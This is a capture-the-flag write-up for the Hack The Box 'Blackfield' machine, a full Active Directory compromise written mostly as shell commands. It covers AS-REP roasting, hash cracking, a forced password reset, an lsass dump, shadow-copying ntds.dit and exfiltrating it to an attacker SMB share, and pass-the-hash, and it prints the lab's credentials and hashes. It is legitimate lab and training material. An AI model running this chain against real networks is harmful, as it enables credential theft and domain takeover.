

# [Blackfield](https://app.hackthebox.com/machines/blackfield)

```bash
nmap -p- --min-rate 10000 10.10.10.192 -Pn
```


After knowing open ports, let's do greater nmap scan.

```bash
nmap -A -sC -sV -p53,135,139,445,5985 10.10.10.192
```


I add this ip address into **'/etc/hosts'** file as `blackfield.local`

Let's enumereate SMB share via `smbmap` tool.

```bash
smbmap -H 10.10.10.192 -u guest -p ''
```


Let's login into SMB Share called '**profiles$**' via `smbclient` tool.
```bash
smbclient -N //10.10.10.192/profiles$
```


There's tons of users, let's get all of them to check `AS-Rep Roasting` attack.

1.I get copy for all of users, then via regex I just got only usernames.
```bash
cat users.txt | cut -d ' ' -f3 > users
```



2.Let's do loop for each user in users file and we will use `GetNPUsers.py` script of `Impacket` module.

```bash
for user in $(cat users); do GetNPUsers.py -no-pass -dc-ip 10.10.10.192 blackfield.local/$user | grep krb5asrep; done
```


Let's grab this hash and crack via `hashcat` tool.

```bash
hashcat -m 18200 hash.txt --wordlist /usr/share/wordlists/rockyou.txt
```


That's credentials of `support` user.

support: #00^BlackKnight


Let's check this credentials against SMB via `crackmapexec` tool.
```bash
crackmapexec smb 10.10.10.192 -u support -p '#00^BlackKnight' --shares
```


I cannot find interesting stuff here, that's why I use `bloodhound` to enumerate.


1.First, let's dump all domain data.

```bash
bloodhound-python -c ALL -u support -p '#00^BlackKnight' -d blackfield.local -dc dc01.blackfield.local -ns 10.10.10.192
```


2.Then start `neo4j console` and type `bloodhound` to upload `.json` data.


I just enumerate one thing that my current user `support` has a privilege called '**ForceChangePassword**' against 'audit2020' user.


But I don't have proper shell, but I can change password via `RPC` by reading this [blog](https://room362.com/posts/2017/reset-ad-user-password-with-linux/).


1.First, I need to connect into RPC
```bash
rpcclient -U 'blackfield.local/support%#00^BlackKnight' 10.10.10.192
```

2.Second, I need to change password .

```bash
setuserinfo2 audit2020 23 'dr4ks!!'
```


Let's check this credentials that worked or not via `crackmapexec` tool. And we look also SMB Share if it is possible.

```bash
crackmapexec smb 10.10.10.192 -u audit2020 -p 'dr4ks!!' --shares
```


Now, I connect into SMB via this credentials. I select `forensic` share
```bash
smbclient -U '10.10.10.192\audit2020' //10.10.10.192/forensic
```

This way is long, that's why I open File Browser and put `smb://10.10.10.192/forensic` and type credentials for `audit2020` user.


I got `lsass.zip` file from `memory_analysis` folder.


I unzip this file and got `lsass.DMP` file , to get credentials from here I will use [pypykatz](https://pypi.org/project/pypykatz/)

```bash
pypykatz lsa minidump lsass.DMP
```


From here, I got NTLM hash of `svc_backup` user.

svc_backup: 9658d1d1dcd9250115e2205d9f48400d


Let's login into machine via this credentials by using `evil-winrm` tool.

```bash
evil-winrm -i 10.10.10.192 -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d
```

user.txt


I looked at this user's privileges via `whoami /priv` command and see that '**SeBackupPrivilege**' is enabled.


I will use this [blog](https://www.hackingarticles.in/windows-privilege-escalation-sebackupprivilege/) to abuse this privilege


1.First, we need to create `dr4ks.dsh` file with below content.
```bash
set context persistent nowriters
add volume c: alias dr4ks
create
expose %dr4ks% z:
```

2.Then we need to convert this script via `unix2dos` command.
```bash
unix2dos dr4ks.dsh
```


3.Then upload into machine and run below commands.
```bash
upload dr4ks.dsh
diskshadow /s dr4ks.dsh
robocopy /b z:\windows\ntds . ntds.dit
```


4.Then open SMB server to transfer this files into your local machine.
```bash
python3 /usr/share/doc/python3-impacket/examples/smbserver.py share . -smb2support
```


5.Then copy files (system and ntds.dit) to your machine.
```bash
reg.exe save hklm\system \\10.10.14.5\share\system
copy C:\ProgramData\ntds.dit \\10.10.14.5\share\ntds.dit
```


I grab administrator hash by running `secretsdump.py` script of `Impacket` module
```bash
python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -system system -ntds ntds.dit LOCAL
```


Let's do `Pass-The-Hash` attack via `evil-winrm` tool.
```bash
evil-winrm -i 10.10.10.192 -u administrator -H 184fb5e5178480be64824d4cd53b99ee
```


root.txt

